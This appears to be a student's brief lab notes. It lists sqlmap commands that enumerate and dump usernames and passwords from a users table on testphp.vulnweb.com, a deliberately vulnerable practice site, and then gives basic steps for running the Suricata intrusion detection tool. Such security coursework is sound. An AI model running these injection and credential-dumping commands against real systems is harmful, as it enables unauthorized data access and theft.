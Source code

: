 # 3-2lab


sql cammods


sqlmap –u testphp.vulnweb.com/artists.php?artist=1 --dbs

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart --tables

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –-columns

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C uname --dump

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C pass –dump

 week9
 
 suricata tool
 
 
 apt install suricata 
 suricata -i eth0 -v
 ctrl + c
 cat /var/log/suricata/eve.json
